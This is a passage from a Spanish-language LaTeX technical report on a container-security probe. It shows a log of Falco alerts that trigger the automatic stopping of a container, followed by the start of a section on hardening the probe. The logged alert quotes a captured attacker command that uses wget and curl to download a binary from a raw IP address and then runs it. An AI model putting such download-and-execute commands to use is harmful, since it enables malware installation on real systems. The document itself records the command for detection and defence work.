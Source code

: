 \begin{verbatim}
    time="2017-08-29T21:55:59Z" level=debug msg="ParseFalcoNotifications: received a falco notification" 
    time="2017-08-29T21:55:59Z" level=info msg="{21:55:58.886876283: Alert Shell spawned in a container other than entrypoint 
    (user=root ssh (id=fecb65acaf55) ssh (id=fecb65acaf55) shell=bash parent=sshd cmdline=bash -c #!/bin/sh
    PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    wget http://155.94.161.92/ys808e
    curl -O http://155.94.161.92/ys808e
    chmod +x ys808e
    ./ys808e
    ) Alert Run shell in container 2017-08-29 21:55:58.886876283 +0000 UTC}" 
    time="2017-08-29T21:55:59Z" level=debug msg="map[user:root image_name:ssh image_id:fecb65acaf55]" 
    time="2017-08-29T21:55:59Z" level=debug msg="Alert received, will try to stop container" 
    time="2017-08-29T21:55:59Z" level=debug msg="incomparable ID, provided ID is larger than existing one 
    time="2017-08-29T21:55:59Z" level=debug msg="FalcoNotification.handle: stopping container" 
    time="2017-08-29T21:55:59Z" level=info msg="scheduled container ssh for stopping" 
    time="2017-08-29T21:55:59Z" level=debug msg="ScheduleContainerStop: outside the lambda function waiting for DONE signal" 
    time="2017-08-29T22:05:59Z" level=info msg="Stopping container ssh NOW!" 
    time="2017-08-29T22:06:09Z" level=info msg="container ssh has been stopped" 
    time="2017-08-29T22:06:09Z" level=debug msg="ScheduleContainerStop: Lambda function DONE"     
\end{verbatim}
\bigskip

\subsection{Securizacion de la sonda}
\label{subsec:securizacion-sonda}
Hay diversas medidas de seguridad a aplicar en la sonda. Si seguimos el principio de defensa en profundidad \cite{wikipedia-defense-in-depth}, aplicaremos diversas capas de proteccion en diferentes sistemas.

\subsubsection{securizacion del sistema operativo}

En nuestro caso al escoger \emph{Debian} podremos utilizar capacidades como el sistema de \emph{unattended-upgrades} para actualizar paquetes del sistema cuando 
se publiquen actualizaciones de seguridad. 

